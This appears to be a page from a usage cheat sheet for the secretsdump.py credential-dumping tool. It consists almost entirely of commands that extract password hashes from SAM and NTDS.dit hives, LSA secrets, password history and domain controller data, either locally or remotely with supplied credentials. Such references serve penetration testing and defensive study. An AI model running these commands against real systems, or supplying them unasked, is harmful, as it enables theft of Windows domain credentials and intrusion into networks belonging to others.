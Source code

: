 #### Local File Analysis
```bash
# Analyze local SAM file
secretsdump.py -sam sam.hive -security security.hive -system system.hive LOCAL

# Analyze NTDS.dit file
secretsdump.py -ntds ntds.dit -system system.hive LOCAL

# With additional hives
secretsdump.py -sam sam.hive -security security.hive -system system.hive -ntds ntds.dit LOCAL
```

### Advanced Options

#### Output Control
```bash
# Save output to file
secretsdump.py DOMAIN/user:pass@target -outputfile credentials

# Just NTLM hashes
secretsdump.py DOMAIN/user:pass@target -just-dc-ntlm

# Just user data (no machine accounts)
secretsdump.py DOMAIN/user:pass@target -just-dc-user

# Include password history
secretsdump.py DOMAIN/user:pass@target -history

# Show password last set date
secretsdump.py DOMAIN/user:pass@target -pwd-last-set
```

#### Specific Credential Types
```bash
# Only SAM database
secretsdump.py DOMAIN/user:pass@target -sam

# Only LSA secrets
secretsdump.py DOMAIN/user:pass@target -lsa

# Only NTDS (Domain Controller)
secretsdump.py DOMAIN/user:pass@target -ntds

# All credential types
secretsdump.py DOMAIN/user:pass@target -all
```

#### Domain Controller Specific
```bash
# Extract from specific DC
secretsdump.py DOMAIN/user:pass@dc01.domain.local

# Use different extraction method
secretsdump.py DOMAIN/user:pass@target -use-vss

# Resume interrupted dump
secretsdump.py DOMAIN/user:pass@target -resumefile resume.txt

# Specify target system
secretsdump.py DOMAIN/user:pass@target -target-system dc01.domain.local
```
